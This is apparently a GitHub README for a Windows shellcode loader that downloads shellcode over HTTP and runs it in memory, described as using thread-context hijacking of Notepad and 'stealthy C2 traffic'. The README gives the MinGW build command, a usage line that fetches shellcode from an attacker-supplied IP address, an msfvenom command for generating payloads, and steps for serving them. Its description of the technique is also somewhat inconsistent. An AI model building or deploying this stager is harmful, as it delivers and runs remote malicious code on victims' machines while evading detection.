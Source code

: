 A simple Windows shellcode loader that downloads shellcode from a specified HTTP URL and injects it into a suspended process (Notepad.exe) using thread context hijacking.

## 🚀 Description

This tool demonstrates:
- Downloading remote shellcode via HTTP
- Allocating RWX memory with `VirtualAlloc`
- Executing shellcode directly from memory (fileless execution)
- Using the `wininet` API for stealthy C2 traffic

> 🔐 Educational use only. Unauthorized use of this code is illegal.

## 📂 Filename

**Suspended-Process-Stager.cpp** – Console-based shellcode loader (C++)

## 📌 Technique

**In-memory shellcode execution over HTTP**

- **Download stage**: Retrieves shellcode from a remote URL
- **Memory stage**: Allocates executable memory (`PAGE_EXECUTE_READWRITE`)
- **Execution**: Transfers control to shellcode via a function pointer

## 🧱 Requirements

- `x86_64-w64-mingw32-g++` (MinGW-w64)
- Windows target

## ⚙️ Build

```bash
x86_64-w64-mingw32-g++ Suspended-Process-Stager.cpp -o Suspended-Process-Stager.exe -static -lwininet -s -Wl,-subsystem,console
```

## 🧪 Usage

```bash
Suspended-Process-Stager.exe http://<ip_address>/shellcode.bin
```

## 🛠️ Example Shellcode Generation

Using msfvenom:
```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o shellcode.bin
```

Serve with python:
```bash
python3 -m http.server 80
```

Then run
```bash
Suspended-Process-Stager.exe http://127.0.0.1/shellcode.bin
```
